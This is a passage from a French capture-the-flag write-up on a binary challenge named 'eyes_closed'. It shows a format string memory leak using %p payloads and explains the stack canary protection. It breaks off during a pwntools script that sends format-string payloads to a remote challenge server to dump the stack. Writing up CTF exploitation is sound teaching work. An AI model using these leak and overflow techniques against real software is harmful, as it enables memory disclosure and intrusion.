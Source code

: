 Une première chose qui saute au yeux est que notre première entrée est réfléchis .

Voici ce que l'on obtient si on envoie des **formats strings** : ``%p.%p.%p.%p.%p.%p.%p.%p``

```bash
close your eyes and imagine something
tell me, what did you see?:
%p.%p.%p.%p.%p.%p.%p.%p
a 0x7ffdfbc1c8f0.(nil).(nil).0x17.0xffffffffffffff88.0x70252e70252e7025.0x252e70252e70252e.0x70252e70252e70 ?nice one
please, give me a feedback:
```
On a donc un leak directement dans la mémoire du binaire !

La description du challenge nous informe sur les sécurités du binaire exécuté à distance :

- _Canary_ : ``ON``
- _NX_ : ``ON``
- _PIE_ : ``ON``
- _RELRO_ : ``ON``

On va donc essayer de contourner la protection : ``Canary``

###### Explication de la protection Canary

Imaginons un buffer de 60 caractères , un canary est un octet qui va se positionner en 61ème place et qui va contrôler qu'aucun débordement de mémoire n'a lieu :

- ``Mémoire Classique`` :
    _[_----------MA-MEMOIRE---------_]_ _[_----CANARY----_]_ _[_----SUITE----_]_

- ``Mémoire Avec un overflow`` :
    _[_AAAAAAAAAAAAAAAAAAAAAAAAAAAAA] **AAAAAA** _[_----CANARY----_]_[_----SUITE----_]_

Ici , la place du Canary a était modifié de +6 avec un Overflow et la protection va se déclencher et arrêter le programme.

On devine que la 2nd entrée est vulnérable à un **Buffer Overflow** . On peut être en évidence la protection Canary :

![Alt text](./img/canary.png)

```bash
*** stack smashing detected ***: terminated
[1]    373 abort      ./eyes_closed
```

##### Leak de la mémoire :

On peut donc écrire un programme pour faire leak la mémoire et localiser le Canary :

```python
from pwn import *

context.log_level = 'critical'

url  = 'warzone.hackrocks.com'
port = 7772
def Get_proc():	return remote(url,port)

def Dump_stack(string=False):
	print(" [+] Leaking all the Stack ...\n")
	for _ in range(200):
		proc = Get_proc()

		proc.recvuntil(b'what did you see?:')
		payload = b''
		if(string):
			payload += b"AAAA....%%%d$p....%%%d$s" % (_,_)
		else:
			payload += b"AAAA....%%%d$p" % _
```